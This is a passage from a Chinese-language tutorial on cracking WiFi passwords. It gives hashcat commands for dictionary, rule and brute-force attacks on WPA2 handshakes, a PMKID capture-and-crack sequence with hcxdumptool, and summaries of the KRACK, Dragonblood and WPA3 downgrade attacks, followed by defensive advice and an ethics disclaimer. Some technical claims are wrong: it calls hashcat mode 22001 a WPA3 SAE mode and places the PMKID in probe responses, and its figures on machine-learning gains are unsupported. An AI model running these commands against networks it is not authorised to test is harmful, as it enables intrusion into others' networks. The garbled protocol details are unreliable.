hcxpcapngtool -o wpa2-hashcat.hc22000 wpa2-crack-01.cap
```

Hashcat的WPA2模式编号：**22000**（PMKID/EAPOL）

## 6.4 使用Hashcat破解WPA2

```bash
# 基本字典攻击
hashcat -m 22000 -a 0 wpa2-hashcat.hc22000 /usr/share/wordlists/rockyou.txt

# 字典 + 规则攻击（自动变换字典中的单词）
hashcat -m 22000 -a 0 wpa2-hashcat.hc22000 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule

# 暴力破解（8位纯数字）
hashcat -m 22000 -a 3 wpa2-hashcat.hc22000 ?d?d?d?d?d?d?d?d

# 使用GPU设备列表查看
hashcat -I
```

```
输出示例:
hashcat (v6.2.6) starting in backend information mode

OpenCL Info:
  Platform #1: NVIDIA CUDA
  - Device #1: NVIDIA GeForce RTX 4090, 24563/24563 MB allocatable, 128MCU
  - Device #2: NVIDIA GeForce RTX 4090, 24563/24563 MB allocatable, 128MCU

CUDA Info:
  - Device #1: NVIDIA GeForce RTX 4090, 24563/24563 MB allocatable, 128MCU
  - Device #2: NVIDIA GeForce RTX 4090, 24563/24563 MB allocatable, 128MCU
```

### 参数说明

| 参数 | 含义 |
|------|------|
| `-m 22000` | Hash模式（WPA2 EAPOL-PMK） |
| `-a 0` | 攻击模式（0=字典，3=暴力） |
| `-w 3` | 工作负载配置（越高越快，但影响系统响应） |
| `--force` | 忽略警告 |
| `--show` | 显示已破解的密码 |

## 6.5 Hashcat速度对比

```
CPU (i9-13900K, 8核):
   WPA2: ~120 kH/s (每秒12万次)

GPU (RTX 4090):
   WPA2: ~8500 kH/s (每秒850万次)
   ≈ CPU的70倍

GPU (RTX 3090):
   WPA2: ~4500 kH/s (每秒450万次)
   ≈ CPU的37倍
```

## 6.6 使用规则优化破解

Hashcat的**规则**可以自动对字典中的单词进行变化（大小写、数字后缀、特殊字符等）：

```bash
# 内置规则
hashcat -m 22000 -a 0 hash.txt wordlist.txt -r /usr/share/hashcat/rules/dive.rule

# 组合攻击（Combine Attack）
# 用两个字典组合生成密码
hashcat -m 22000 -a 1 hash.txt dict1.txt dict2.txt
```

## 6.7 破解WPA3（限制说明）

如前所述，WPA3的SAE协议使**传统离线字典攻击不可行**。Hashcat 6.0+支持模式**22001**（WPA3 SAE），但仅限于从支持调试日志的AP或客户端获取的PMK文件，**不能直接对捕获的空中数据包进行离线破解**。

---

# 第七章：前沿WiFi攻击技术

## 7.1 PMKID攻击

2018年发现的一种针对WPA2的改进攻击方法。某些AP在发送的**探测响应帧（Probe Response）** 中包含一个称为 **PMKID（PMK标识符，PMK IDentifier）** 的字段。

```
PMKID = HMAC-SHA1(PMK, "PMK Name" | MAC_AP | MAC_Client)
```

攻击者只需**捕获一个数据帧**（不需要四次握手，更不需要去认证攻击），即可尝试破解PMKID，进而获得密码。

**优势**：
- 无需客户端在线
- 无需去认证攻击
- 捕获所需的数据极少

**命令**：
```bash
# 使用hcxdumptool捕获PMKID
sudo hcxdumptool -i wlan0mon -o capture.pcapng

# 转换为hashcat格式
hcxpcapngtool -o hash.hc22000 capture.pcapng

# 破解
hashcat -m 22000 hash.hc22000 wordlist.txt
```

## 7.2 KRACK攻击（2017年）

**KRACK（密钥重装攻击，Key Reinstallation Attack）** 由比利时研究员Mathy Vanhoef发现，利用WPA2四次握手中的实现漏洞：

> 如果攻击者重放四次握手中的**消息3**，客户端可能会**重置**其密钥流计数器，从而导致使用相同的密钥加密多个数据包。这使攻击者可以解密部分数据流。

**影响范围**：所有支持WPA2的设备（包括Android、Linux、Windows、iOS和macOS）

**修复方案**：安装操作系统和路由器固件安全更新

## 7.3 基于机器学习的密码猜测

近年来，研究人员开始使用**生成对抗网络（GAN, Generative Adversarial Network）** 和**Transformer**模型来生成更有效的密码字典：

| 技术 | 描述 |
|------|------|
| **PassGAN** | 使用GAN从真实密码泄露数据中学习密码分布，生成全新的密码组合 |
| **神经网络规则** | 训练神经网络模拟人类密码创建习惯，生成高度逼真的密码 |
| **上下文感知字典** | 结合目标信息（公司名、人名、日期等）生成针对性字典 |

这些技术将WPA2破解的成功率提升了**30-50%**。

## 7.4 针对WPA3的攻击

### 降级攻击

目前针对WPA3最有效的攻击方法是**降级攻击**：

```
WPA3网络 ──→ 设置一个同名的WPA2伪造AP ──→ 目标连接伪造AP ──→ 捕获WPA2四次握手
  
利用PMF兼容性问题: 让设备回退到WPA2模式
```

### Dragonblood攻击（2019年）

Mathy Vanhoef（同样是KRACK的发现者）发现了WPA3 SAE协议的多个漏洞：

1. **侧信道攻击**：利用SAE握手过程中的时序差异推断密码信息
2. **无效曲线攻击**：发送不在椭圆曲线上的点，可能导致信息泄露

这些漏洞已在WPA3的后续更新中得到修复。

## 7.5 认知无线电和SDR攻击

**软件定义无线电（SDR, Software-Defined Radio）** 如HackRF、USRP等设备，可以：
- 在更宽的频率范围内监听WiFi信号（包括2.4GHz和5GHz以外的频段）
- 分析物理层信号特征
- 实现定制化的信号注入攻击

但SDR技术的门槛较高，且破解WiFi加密仍然受限于协议层的数学安全性。

---

# 第八章：安全建议与防御措施

## 8.1 针对个人用户的建议

1. **使用WPA3**：如果硬件支持，务必开启WPA3
2. **如只能使用WPA2**：设置**20位以上**的复杂密码（大小写字母+数字+符号）
3. **禁用WPS**：在路由器管理界面中关闭WPS功能
4. **定期更换密码**：每3-6个月更新一次
5. **更新固件**：保持路由器固件最新，修复已知漏洞
6. **隐藏SSID**：虽然不是真正的安全措施，但可以减少被扫描的概率
7. **开启MAC地址过滤**：作为辅助安全手段

## 8.2 密码强度对比

| 密码类型 | 示例 | 破解时间（RTX 4090） |
|----------|------|---------------------|
| 8位纯数字 | `12345678` | 即时 |
| 8位小写字母 | `password` | 数分钟 |
| 10位混合字母数字 | `pass1234ab` | 数小时 |
| 12位全字符 | `P@ssw0rd!23$` | 数十年 |
| 20位随机字符 | `kD8#mP2$xQ9@vL5*nR1&` | 数亿年 |

## 8.3 渗透测试道德准则

> ⚠️ **重要声明**：本文提供的破解技术仅供**安全研究和教育目的**使用。未经授权对他人网络进行破解是**违法行为**。请在以下情况下使用：
> - 你自己的网络和路由器
> - 获得明确书面授权的渗透测试
> - 合法的CTF竞赛和实验室环境

---

# 结语

从1997年的WEP到今天，WiFi安全协议走过了近30年的演进历程。WEP已死，WPA2正在被淘汰，WPA3正逐步成为主流。

对于安全从业者而言，理解这些协议的加密机制和攻击方法，不仅是为了"破解"，更是为了**更好地防御**。正如网络安全领域的一句名言：

> **"To know how to defend, you must first know how to attack."**
> （要懂得如何防御，你首先必须知道如何攻击。）

希望本文能为你提供一个从密码学基础到WiFi破解实战的完整知识框架。网络安全之路漫长而有趣，愿你在这条路上不断前行。



---

> **参考资源**：
> - [aircrack-ng官方文档](https://www.aircrack-ng.org/)
> - [hashcat官方文档](https://hashcat.net/wiki/)
> - [KRACK攻击官网](https://www.krackattacks.com/)
> - [Wi-Fi Alliance WPA3规范](https://www.wi-fi.org/discover-wi-fi/security)
> - IEEE 802.11-2016 标准文档
